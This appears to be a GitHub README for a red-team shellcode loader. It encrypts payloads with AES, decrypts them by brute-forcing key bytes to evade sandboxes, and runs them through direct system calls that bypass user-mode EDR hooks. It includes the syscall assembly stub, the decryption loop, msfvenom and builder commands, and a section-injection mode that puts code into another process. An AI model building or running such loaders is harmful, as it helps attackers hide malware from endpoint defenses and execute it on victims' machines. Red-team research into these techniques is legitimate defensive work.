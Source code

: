 # GENERIC SYSCALL
This code impliments the Sorting by System Call Address method described in a [blogpost.](https://www.mdsec.co.uk/2020/12/bypassing-user-mode-hooks-and-direct-invocation-of-system-calls-for-red-teams/)<br>

quick disasm with https://defuse.ca/online-x86-assembler.htm#disassembly
```
ZwX:
   58                          pop     rax            ; return address
   41 5A                       pop     r10
   50                          push    rax            ; save in shadow space as _rcx
   51                          push    rcx            ; rax = ssn
   58                          pop     rax
   52                          push    rdx            ; rcx = arg1
   41 5A                       pop     r10
   41 50                       push    r8             ; rdx = arg2
   5A                          pop     rdx
   41 51                       push    r9             ; r8 = arg3
   41 58                       pop     r8             ; r9 = arg4
   4C 8B 4C 24 20              mov     r9, [rsp + 0x20]
   0F 05                       syscall
   FF 64 24 18                 jmp     qword[rsp]
```
This is an interesting technique because it removes the need to both define native function types in our header files and to define each native function in assembly.  
Some prerequisite knowledge:  
- When a function is called the return address is pushed to the stack and execution jumps to the address of the function. So `call` is really like a `push ret` then `jmp faddr` instruction.  
- In x64 the fastcall calling convention is used. With fastcall four registers are used to hold the first four parameters of a function (`rcx`, `rdx`, `r8`, `r9`).  

So `pop rax` moves the return address from the top of the stack to `rax` register. Now `first parameter` of the function is at the top.  
`pop r10` moves the next item from the top of the stack to `r10`.
The return address in `rax` is moved back to the top of the stack with the `push rax` operation.
The first parameter of our ZwX fucntion is then pushed onto the stack with `push rcx`.  
The stack then starts to look more like the stdcall the underlying native function is expecting.  


## Encoding  
The shellcode is encrypted with AES-CBC encryption via the kokke TinyAES library.  
The IV and key are generated with the get_random_bytes function in the pycryptodome library.  
The shellcode payload is decrypted with a crude brute-force loop of the last two bytes of the key instead of using the sleep function.  
```c 
for (int i = 0x00; i<=0xff;i++) {
    key[14] = i;
    for (int j = 0x00; j <= 0xff;j++) {
        key[15] = j;
        AES_init_ctx_iv(&ctx, key, iv);
        AES_CBC_decrypt_buffer(&ctx, encrypted_instructions, ENCRYPTED_BIN_LEN);
``` 
There is a loader, which just runs the shellcode in the same process via function pointer, a loader that does the same thing but via sections, and a process injector.  

Dependencies:
```
gcc
python3
nasm
```

use like
```bash
python3 -m venv env  
source env/bin/activate  
pip install pycryptodome  
msfvenom -p windows/x64/exec CMD='C:\Windows\System32\notepad.exe' EXITFUNC=process -f raw -o test.bin  
python build.py -inbin test.bin -execmethod runner
python builder.py -inbin test.bin -execmethod section_inject --process notepad.exe --cmdline 'c:\\windows\\system32\\firefox.exe'
```


```bash
usage: builder.py [-h] [-inbin INBIN] [-execmethod {section_inject,section_runner,section_runner_dll,runner,runner_dll}] [--process PROCESS] [--cmdline CMDLINE] [--v V]

generate AES encrypted shellcode runners

optional arguments:
  -h, --help            show this help message and exit
  -inbin INBIN          .bin file
  -execmethod {section_inject,section_runner,section_runner_dll,runner,runner_dll}
  --process PROCESS     process to inject (only with 'section_inject')
  --cmdline CMDLINE     cmdline argument to show (only with 'section_inject')
  --verbose             
  ```  

### References & Reading
Generally:  
hasherezade -- rely heavilly on her PEB lookup heeader code
forrest-orr -- excellent code to read and learn from  
batsec -- lots of python building stuff from his shad0w project
https://www.mdsec.co.uk/2020/12/bypassing-user-mode-hooks-and-direct-invocation-of-system-calls-for-red-teams  
https://github.com/simon-whitehead/assembly-fun/blob/master/windows-x64/README.md  